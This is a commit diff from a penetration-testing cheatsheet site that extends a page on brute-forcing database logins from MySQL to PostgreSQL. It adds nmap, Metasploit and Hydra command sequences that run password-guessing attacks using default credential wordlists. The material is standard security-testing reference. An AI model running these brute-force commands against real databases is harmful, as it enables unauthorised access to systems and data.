

Before and after one commit to tymyrddin/cheatsheets, a Sphinx documentation site: the page built from source/docs/databases/brute-force.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
databases

````diff
--- a/source/docs/databases/brute-force.md
+++ b/source/docs/databases/brute-force.md
@@ -1,19 +1,26 @@
-# Brute-force MySQL
-
-Reduce the pool of users for the brute-force attack by [user enumeration](../enumeration/mysql.md).
+# Brute-force databases
 
 ## Nmap
 
 `nmap` uses default password and user lists, but do plug in other lists:
 
+### MySQL
+Reduce the pool of users for the brute-force attack by [user enumeration](../enumeration/databases.md).
+
 ```text
-nmap --script mysql-brute <target>
+# nmap --script mysql-brute <target>
 --script-args userdb=<path> - plug in list of logins
 --script-args passdb=<path> - plug in list of passwords
 ```
 
+### PostgreSQL
+```text
+# nmap -p 5432 --script pgsql-brute <target>
+```
+
 ## Metasploit
 
+### MySQL
 ```text
 msf > use auxiliary/scanner/mysql/mysql_login
 msf auxiliary(mysql_login) > set USER_FILE /root/login/logins
@@ -22,6 +29,29 @@
 msf auxiliary(mysql_login) > exploit
 ```
 
+### PostgreSQL
+```text
+msf > use auxiliary/scanner/postgres/postgres_login
+msf auxiliary(postgres_login) > set BLANK_PASSWORDS True
+msf auxiliary(postgres_login) > set STOP_ON_SUCCESS True
+msf auxiliary(postgres_login) > set threads 100
+msf auxiliary(postgres_login) > set RHOSTS <target>
+msf auxiliary(postgres_login) > run
+```
+
+## Hydra
+
+### PostgreSQL
+
+```text
+# hydra -L /path/to/user.txt -P /path/to/pass.txt <target> postgres
+# hydra -L /usr/share/metasploit-framework/data/wordlists/postgres_default_user.txt -P /usr/share/metasploit-framework/data/wordlists/postgres_default_pass.txt <target> postgres
+-L: path for username list
+-P: path for the password list
+```
+
 ## Resources
 
 * [SecLists](https://github.com/danielmiessler/SecLists)
+* [Script pgsql-brute](https://nmap.org/nsedoc/scripts/pgsql-brute.html)
+* [Script mysql-brute](https://nmap.org/nsedoc/scripts/mysql-brute.html)
````
Also changed, not shown: source/docs/databases/mysql-commands.md (+8 -28 lines), source/docs/databases/postgresql-commands.md (added, +69 -0 lines), source/docs/enumeration/databases.md (renamed from source/docs/enumeration/mysql.md).
